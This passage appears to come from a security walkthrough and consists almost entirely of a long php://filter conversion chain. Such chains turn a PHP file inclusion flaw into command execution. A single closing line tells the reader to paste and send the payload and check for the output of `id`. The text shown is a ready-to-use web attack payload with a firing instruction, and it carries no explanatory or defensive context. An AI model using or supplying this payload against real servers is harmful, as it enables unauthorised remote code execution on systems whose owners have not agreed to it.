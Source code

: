 ```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Now copy paste and send to see if we can see the `id`.
